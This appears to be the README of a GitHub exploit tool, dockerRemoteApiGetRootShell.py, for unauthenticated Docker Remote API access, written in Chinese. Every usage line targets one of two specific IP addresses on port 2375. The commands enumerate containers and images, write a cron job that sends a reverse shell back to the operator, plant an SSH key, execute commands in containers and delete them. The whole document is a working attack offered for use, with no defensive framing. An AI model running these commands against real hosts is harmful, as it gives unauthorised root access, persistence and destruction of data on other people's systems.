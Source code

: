 # docker_api_vul
docker 未授权访问漏洞利用脚本

#查看运行的容器
python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375
#查看所有的容器
python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -a

#查看所有镜像
python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -l

#查看端口映射
python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -L

#写计划任务（测试centos;ubuntu可能需要自己修改计划任务路径）
python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口

#写sshkey(自行修改脚本的中公钥)
python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -k

#在容器中执行命令
python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -e "id" -I 容器id

#删除容器
python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -c -I 容器id

#修改client api版本
python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -v 1.22

#查看服务端api版本
python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -V

